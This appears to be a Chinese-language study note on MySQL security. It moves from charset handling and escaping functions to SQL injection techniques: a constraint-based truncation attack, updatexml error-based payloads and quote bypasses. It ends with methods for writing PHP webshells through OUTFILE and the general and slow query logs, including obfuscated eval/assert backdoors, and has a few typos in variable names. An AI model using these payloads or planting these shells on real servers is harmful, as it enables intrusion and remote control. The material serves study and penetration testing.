

# MySQL

## 编码

### utf8mb4

MySQL在5.5.3之后增加了utf8mb4的编码,专门用来兼容四字节的unicode字符,原来mysql支持的 utf8 编码最大字符长度为 3 字节，如果遇到 4 字节的宽字符就会插入异常了

### 字符集设置项

- character_set_server：默认的内部操作字符集
- character_set_client：客户端来源数据使用的字符集
- character_set_connection：连接层字符集
- character_set_results：查询结果字符集
- character_set_database：当前选中数据库的默认字符集
- character_set_system：系统元数据(字段名等)字符集

```sql
# 新建一个数据库指定字符集为utf8mb4
create database `web` character set `utf8mb4` collate `utf8mb4_general_ci`;

mysql> use web;
Database changed
mysql> SHOW VARIABLES WHERE Variable_name LIKE 'character\_set\_%' OR Variable_name LIKE 'collation%';  
+--------------------------+--------------------+
| Variable_name            | Value              |
+--------------------------+--------------------+
| character_set_client     | utf8mb4            |
| character_set_connection | utf8mb4            |
| character_set_database   | utf8mb4            |
| character_set_filesystem | binary             |
| character_set_results    | utf8mb4            |
| character_set_server     | latin1             |
| character_set_system     | utf8               |
| collation_connection     | utf8mb4_general_ci |
| collation_database       | utf8mb4_general_ci |
| collation_server         | latin1_swedish_ci  |
+--------------------------+--------------------+
10 rows in set (0.03 sec)
```

> 执行了set names utf8; 以后， character_set_client, character_set_connection, character_set_results 等与客户端相关的配置字符集都变成utf8

### 字符集转换过程

1. MySQL Server收到请求时将请求数据从character_set_client转换为character_set_connection

2. 进行内部操作前将请求数据从character_set_connection转换为内部操作字符集，其确定方法如下：

    - 使用每个数据字段的CHARACTER SET设定值

    - 若上述值不存在，则使用对应数据表的DEFAULT CHARACTER SET设定值(MySQL扩展，非SQL标准)

    - 若上述值不存在，则使用对应数据库的DEFAULT CHARACTER SET设定值

    - 若上述值不存在，则使用character_set_server设定值。

3. 将操作结果从内部操作字符集转换为character_set_results。

```sql
# 新建一张字符集为latin1的表
create table `charset_latin1` (
    `id` int unsigned not null auto_increment,
    `username` varchar(100) not null,
    `password` varchar(100) not null,
    primary key (`id`)
    ) charset=latin1 collate=latin1_general_ci;
```

这里客户端和服务端的字符编码不一致会导致安全问题:

- utf8=>latin1 client为utf8,服务端为latin1编码,此时可能会导致不完整字符丢失


<!--  -->
<!--  -->

## 基于约束的SQL攻击

在SQL中执行字符串处理时，字符串末尾的空格符将会被删除,如下两条查询语句的查询结果相同:

```sql
select * from users where username='admin';
select * from users where username='admin   ';
```

问题的关键是如何将原有username加上空格作为新行插入表中,如下为常见的用户注册逻辑:

```php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT * FROM users WHERE username='$username'";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password) VALUES ('$username','$password')";
  }
```

在执行insert语句时,插入的值如果超出创建表的是定义的长度varchar(8),值会被裁剪至8位,如果后端在处理用户提交的数据是没有对username做长度验证,即提交一个9个字符的字符串`admin   1`即可绕过判断username已存在,并且在insert时将第九位1裁剪掉.


### mysql_real_escape_string() 

此函数转义 SQL 语句中使用的字符串中的特殊字符:

- \x00
- \n
- \r
- \
- '
- "
- \x1a

### htmlspecialchars()

实体化过滤:

- & (AND) => &amp;
- " (双引号) => &quot; (当ENT_NOQUOTES没有设置的时候) 
- ' (单引号) => &#039; (当ENT_QUOTES设置) 
- < (小于号) => &lt; 
- `>` (大于号) => &gt; 

### addslashes()函数 

会在以下关键词前面添加转义字符:

- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

## order by

order by注入后续语句会使用报错、布尔、时间进行注入

接报错语句:

```sql
mysql> select * from charset_latin1 order by updatexml(1,concat('~',version()),1);
1105 - XPATH syntax error: '~5.6.45'
```

## insert update delete

报错语句:

```sql
//delete或update
insert into charset_latin1(`usernmae`,`password`) values('username' or updatexml(1,concat('~',version()),1),'password');

1105 - XPATH syntax error: '~5.6.45'
```

### 一个例子

题目地址:https://chall.tasteless.eu/level15/index.php

输入name和text插入数据库,在查询出来:

```sql
insert into table_name(name,text) values('','');
```

但是这里过滤了引号,不能通过闭合导致注入

可以利用这里的两个可控参数,name参数使用 `\` 转义 `'`,使得第一个参数位的引号和第二个参数位的引号闭合:

```sql
insert into table_name(name,text) values('\','(select something...))#');
```

当多个参数可控时,可以组合利用,挖掘XSS漏洞是也可以用到

## MySQL 反引号

连续的两个反引号被当作一个空格看待

## 盲注

### MySQL内置函数

- length()
- substring(string, start, length),mid(),substr()
- 函数ascii() 返回字符串str的最左字符的ascii编码,空=>0,NULL=>NULL
- ord() 函数返回字符串第一个字符的 ASCII 值
- exp(e) 是以e为底的指数函数


## MySql写shell 

### outfile和dumpfile

into outfile 可以导出多行数据,但是会在换行符后追加反斜杠,还会在最后添加换行符.所以不适合导出二进制文件
into dumpfile 只能导出一行数据可以使用limit限制查询数据,不会追加反斜杠和换行符

利用条件:
- 数据库当前用户是root
- 单引号没有被过滤
- web服务的绝对路径
- 绝对路径写入权限

union查询注入点:

```sql
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into outfile 'C:\phpinfo.php'%23
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into dumpfile 'C:\phpinfo.php'%23
```

其他情况

```sql
?id=1 into outfile 'C:\info.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23
```

`secure-file-friv`用于限制`info outfile`和`into dumpfile`的输出目录

当`secure-file-friv`的值为null时,表示mysql不允许导出文件,mysql `5.6.34`版本后默认值为null,且不支持sql语句动态修改

### 通过日志写shell

```sql
show variables like '%general%';
set global general_log = on;
set global general_log_file = '/var/www/html/1.php';
select '<?php phpinfo();?>';
select '<?php @eval($_POST[1]);?>';

```

php变形shell:

```php
<?php $sl = create_function('', @$_REQUEST['1']);$sl();?>
<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['1']));?>

```

慢查询日志,默认超过10秒的查询语句会被记录到慢查询日志:

```sql
how variables like '%slow_query_log%';
set global slow_query_log=1;
set global slow_query_log_file='C:\\phpStudy\\WWW\\1.php';
select '<?php @eval($_POST[1]);?>' or sleep(11);
```
